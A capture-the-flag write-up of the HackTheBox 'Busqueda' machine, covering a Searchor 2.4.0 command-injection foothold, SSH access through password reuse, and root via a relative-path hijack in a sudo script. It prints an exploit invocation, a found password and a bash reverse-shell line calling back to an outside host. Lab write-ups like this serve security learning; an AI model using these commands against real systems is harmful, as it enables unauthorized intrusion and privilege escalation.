



# Busqueda -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Busqueda (HackTheBox)
**Author:** dsec
**Date:** 2025-09-19

---

## TL;DR

### Searchor 2.4.0 command injection for shell. Password reuse for SSH. Abused relative path in sudo script for root.
---

## Target info

- Host: `searcher.htb` / `10.129.73.198`
- Services discovered: `22/tcp (ssh)`, `80/tcp (http)`

---

## Foothold

Exploited Searchor 2.4.0 arbitrary command injection:

- `https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection`

```bash
./exploit.sh searcher.htb 10.10.14.44 4444
```

Got shell as `svc`.



Found password: `jh1usoih2bkjaspwe92`

```bash
ssh svc@10.129.73.198
```

Password worked for SSH.

---

## Privilege escalation

```bash
sudo -l
```



The `system-checkup.py` script runs `full-checkup.sh` using a relative path:



- `sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup` runs `full-checkup.sh` from the current directory

Created a malicious `full-checkup.sh` in home directory:

```bash
bash -i >& /dev/tcp/10.10.14.44/443 0>&1
```

Ran the sudo command from home directory and caught root shell.

---

## Lessons & takeaways

- Relative path references in sudo scripts are exploitable by placing malicious files in the working directory
- Always check for password reuse between web apps and system accounts
---
